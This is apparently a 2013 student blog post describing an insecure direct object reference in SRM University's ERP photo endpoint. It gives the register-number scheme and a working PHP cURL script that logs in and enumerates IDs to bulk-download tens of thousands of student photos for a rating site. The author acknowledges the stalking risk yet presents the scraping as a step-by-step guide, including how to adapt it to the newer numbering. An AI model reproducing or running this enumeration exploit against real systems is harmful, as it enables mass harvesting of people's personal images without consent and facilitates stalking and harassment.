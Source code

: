```yaml
---
layout: post
title:  "NerdOrNot"
date:   2013-05-17 22:49:07
categories: facemash
---
```


Let's dive into how I got the Images. Pretty Simple Really. If you log into your ERP account you will see your passport sized image with you basic information. If you try right clicking it and opening the image in a new tab, you can something like this in the address bar.

`http://evarsity.srmuniv.ac.in/srmswi/LoadImageInJsp.jsp?imagepath=/usr/local/StudentPhoto/2010/10z10y00xx.jpg`

Let's break this down. You can see 2010 in there, which is the my year of joining and '10z10y00xx' which is apparently my register number. I was a little bored last night so changed the register number at the end of the URL to 10z10y00x(x+1).jpg and guess what? I was able to see my friend's picture as well. What did this mean? Well.. I can now access every fourth your student's image from the SRM database.

<img src="https://db.tt/wonRrgOL" class="full-screen" /> 

Any person, anywhere around the world with a valid SRM login-id and password has access to all your photos. Not only that with the register number, he will be able to assosiate your photo with your campus, your department and your class. A stalker's paradise indeed.

The stalker might not know everyone's name, but will know your face. By using any one of the multiple facial recognintion software on the internet, he will be able to match your face with a facebook profile. He will then have access to your all your public information, your hobbies, your activities, your likes, your dislikes. A harrasment suite waiting to happen. The importance of this information is much more than one would think.

Let's consider an example register number- 1011010012

* 101 - Department ID (101-Civil, 102-Mechanical, 104-CSC, 108-IT and so on)
* 10 - Year of joining (2010)
* 1 - Campus (1-Ktr,2-Rrm,3-Modi and so on)
* 0012 - Your number in your class

{% highlight php %} 
$file = 'cookies.txt';
file_put_contents($file,'');
require_once('curl.php');
require_once('simple_html_dom.php');	
$cc = new cURL(); 
if($data = $cc->get('evarsity.srmuniv.ac.in/srmswi/usermanager/
youLogin.jsp?txtSN=10z10y00xx&txtPD=mypassword&txtPA=1'))
{	
$html = str_get_html($data);
if($html->find('div[class=paneltitle01]'))
{
for($i=1;$i<18;$i++){
if($i<10)
$dept = "0".$i;
else
$dept = $i;			
$max = 400;
for($j=1;$j<=3;$j++){
for($k=1;$k<$max;$k++){
if($k<10)
$roll = "00".$k;
else if($k<100)
$roll = "0".$k;
else
$roll = $k;
if($data = $cc->get("http://evarsity.srmuniv.ac.in/srmswi/
LoadImageInJsp.jsp?imagepath=/usr/local/StudentPhoto/
2010/1".$dept."10".$j."0".$roll.".jpg")){
  if($data!=null)
  {
    $file = "1".$dept."10".$j."0".
    $roll.'.jpg';
  if(!is_file($file))
  {
    $fp = 
    fopen('images/'.$file,'w');
    echo $file."\n";
    fwrite($fp, $data); 
    fclose($fp);	
  }

  }
}}}}}}
{% endhighlight %}


Now that this information is out there for free, let's get it! Check out this script on the right. Basic php Curl, straight forward stuff. Curl to the url as specified earlier, write the data recieved in a JPG file as, I've demonstrated and you are good to go. Iterate from 101 to 117, the various departments. 101-103 the three campuses and from 1 to 400(I've made an assumption here that the maximum number of students per department per campus is 400). This script will run for an hour or so. At the end of it, you will have nearly 3k images of all SRM fourth year students.

* * *

<img src="https://db.tt/16eIH8LC" class="full-screen" />

Are we done? No way. Just change the url to 2009 and the 2nd unit of the register number to 09 and you will get another set of 3k pictures, the batch of 2009. 2008 doesn't work, I guess they must have removed those from the server. Nothing we can do about that.

Now from 2011, it's a little tricky. I guess the tech team at SRM realized how dangerous their picture storing scheme was. Did you know that when you reigster during councelling, SRM gives you a six digit enrollment number. You can even use that to log into the ERP. Well the reason, I'm talking about that is from the batch of 2011 this number is used to save everyone's picture not their register number. Coming to think of it, it's a much safer scheme as now even if a stalker gets hold of all your pictures, he will now know which campus you study in, which department you belong to or how old you are.

Some secuiry is better than no security right? Great going SRM, you are halfway there!

* * *

<img src="https://db.tt/I1jf6FQz" class="full-screen" />

`http://evarsity.srmuniv.ac.in/srmswi/LoadImageInJsp.jsp?imagepath=/usr/local/StudentPhoto/2011/S_123586.jpg`

Now fetching the images is actually easier. As now all Images are stored sequentially. You have to estimate the limts per year, but that has to be done manually. You will figure out that images of students belonging to the batch of 2011 ranges from S_123586.jpg to S_144221.jpg. Similarly estimate limits for 2012 and 2013, modify the previous script a little and Wala. After 7 and a half hours, you have a 1.4gb folder, containing 53,230 images.

`#kThankxbai`

* * *

[Github](https://github.com/nithinkrishna/nerdornot).
[Website](http://nerdornot-srmapi.rhcloud.com/).
[Screen Shot](https://db.tt/Rvb38IHP)